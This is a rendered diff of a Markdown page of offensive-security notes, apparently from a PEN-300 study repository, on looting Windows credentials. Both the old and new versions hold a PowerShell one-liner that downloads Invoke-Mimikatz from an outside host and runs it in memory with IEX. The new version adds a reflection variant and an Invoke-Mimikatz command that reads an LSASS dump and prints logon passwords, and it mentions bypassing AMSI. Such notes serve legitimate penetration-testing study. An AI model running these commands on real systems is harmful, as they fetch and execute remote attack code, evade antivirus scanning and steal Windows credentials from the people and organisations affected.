

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -85,7 +85,7 @@ To dump TGT and TGS:
 ```
 (If you want to be stealthier, you can use [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)).
 
-2nd method(using [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)):
+2nd method(using [Invoke-Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1))((after bypassing AMSI)):
 
 ```
 1. PS C:\Windows\system32> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
@@ -107,6 +107,10 @@ C:\minidump.exe c:\windows\tasks\lsass.dmp
 #From a mimikatz shell(note that this doesn't require debug privileges)
 1. sekurlsa::minidump lsass.dmp
 2. sekurlsa::logonpasswords
+
+#Invoking mimikatz through reflection(after bypassing AMSI)
+1. PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.1.1/Invoke-Mimikatz.ps1') | IEX
+2. PS C:\> Invoke-Mimikatz -Command "`"sekurlsa::minidump c:\tools\lsass.dmp`"sekurlsa::logonpasswords"
 ```
 
 When the popularity of cached credential retrieving raised, Microsoft introduced 2 secuirty measures: LSA Protection and Windows Defender Credential Guard. The LSA protection added an additional process
````
